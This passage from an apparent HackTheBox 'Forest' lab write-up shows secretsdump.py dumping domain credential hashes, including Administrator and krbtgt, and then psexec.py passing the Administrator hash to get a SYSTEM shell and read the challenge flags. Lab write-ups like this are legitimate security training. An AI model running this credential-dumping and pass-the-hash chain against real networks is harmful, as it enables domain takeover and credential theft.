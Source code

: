 ```bash
[-] ACL attack already performed. Refusing to continue
```

Moving on, we can run `secretsdump.py` (also included in Kali) to dump the domain credentials.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# secretsdump.py -just-dc htb.local/shiro:password@10.10.10.161
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
FOREST$:aes256-cts-hmac-sha1-96:3a92bebc9c41101da30553cd01c8c9719a79c4a36bc640abe428792edfadd281
FOREST$:aes128-cts-hmac-sha1-96:75891b522547c5fa59383a5023ad52a6
FOREST$:des-cbc-md5:5d3de3a7bae0ad4f
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

Finally, we can use `psexec.py` to pass the hash and connect to the domain!

```powershell
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd Users

C:\Users>dir
09/22/2019  04:02 PM    <DIR>          .
09/22/2019  04:02 PM    <DIR>          ..
09/18/2019  10:09 AM    <DIR>          Administrator
11/20/2016  07:39 PM    <DIR>          Public
09/22/2019  03:29 PM    <DIR>          sebastien
09/22/2019  04:02 PM    <DIR>          svc-alfresco
               0 File(s)              0 bytes
               6 Dir(s)  10,432,155,648 bytes free

C:\Users>type svc-alfresco\Desktop\user.txt
812afe6e13c2ff41d9c7020f94f58f80

C:\Users>type Administrator\Desktop\root.txt
49607d808dda27f4807a9906e1507cb2
```

